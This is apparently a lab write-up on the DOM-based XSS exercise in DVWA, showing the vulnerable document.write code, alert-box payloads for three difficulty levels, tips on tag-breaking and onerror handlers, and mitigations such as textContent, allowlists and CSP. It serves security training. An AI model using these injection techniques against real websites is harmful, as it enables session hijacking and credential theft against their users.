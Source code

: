 
# 🛡️ DOM-based XSS Vulnerability — DVWA

## 📌 Overview

This analysis focuses on a **DOM-based Cross-Site Scripting (XSS)** vulnerability in DVWA where user-controlled input is directly embedded into the page using JavaScript, specifically via the `document.write()` function. The vulnerable JavaScript reads the URL parameter and injects it into the HTML DOM without any proper sanitization, encoding, or validation.

---

## 🔍 Vulnerabilities Identified

```python
🔒 Vulnerability | ❌ Problem Description  
---|---  
DOM-Based XSS | Unvalidated input from URL `default=` parameter is directly written into the DOM using `document.write()`  
Tag Injection | Input is injected inside the `<option value='...'>` and innerText, enabling tag-breaking or full HTML injection  
Lack of Encoding | No encoding of attribute or text content, enabling direct script injection
```

---

## 🔢 Input Code (DOM Sink)

```html
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
        document.write("<option value='' disabled='disabled'>----</option>");
    }
    document.write("<option value='English'>English</option>");
    document.write("<option value='French'>French</option>");
    document.write("<option value='Spanish'>Spanish</option>");
    document.write("<option value='German'>German</option>");
</script>
```

---

## 2️⃣ Exploitation Phase: Manual

### 🔨 Tool:
- Web Browser + URL bar
- Burp Suite (optional)

### 🔧 Setup:
- Access: `http://localhost/vulnerabilities/xss_d/`
- Payloads injected via `default=` URL parameter

### 🔁 Payloads:

#### Low
```text
?default=');<script>alert('hacked!');</script>//
```

#### Medium (script tag filtered, attribute-based attack):
```text
?default=English</option></select><img src='x' onerror='alert(1)'>
```

#### High (hash-based DOM parsing):
```text
?default=English#<script>alert('hacked')</script>
```

### 🎯 Success Indicator:
- A JavaScript alert box pops up
- DOM is modified to include the attacker's input

### 📸 Screenshot:
- Screenshot the alert or console DOM view after injection

---

## 4️⃣ Risk & Real-World Impact

```sql
🧠 Exploit Impact | 🎯 Description  
---|---  
Credential Theft | Can be used to steal session cookies via JavaScript  
Phishing | Malicious UI injected into the page  
Keylogging | Scripts can record user input  
Session Hijack | Attackers could hijack user sessions with stolen cookies
```

---

## 5️⃣ 🚧 Mitigation Measures (Secure Coding)

```sql
🚫 Vulnerability | ✅ Mitigation  
---|---  
Unescaped Input | Avoid using `document.write()` with untrusted input  
Improper Context Use | Use `textContent` or DOM methods like `createTextNode`  
Lack of Allowlisting | Implement strict allowlists for expected values (e.g., language enums)  
Missing CSP | Use Content Security Policy to block inline scripts
```

---

## 📘 Learning Note

When building payloads for DOM XSS:
- Analyze **where in the HTML** the input is injected (attribute, tag, script, etc.)
- Use **tag-breaking** if inside HTML: inject `'><script>...`
- Use **event handlers** like `<img src=x onerror=...>` if `<script>` is blocked
- Use the browser DevTools or View Source to **see final rendered DOM**

---

## 🔚 Conclusion

DOM-based XSS is dangerous because it's **invisible to server logs** and **bypasses many traditional WAFs**. Developers must validate and encode user input **before** inserting it into the DOM, especially when using `document.write`, `innerHTML`, or URL-derived data.

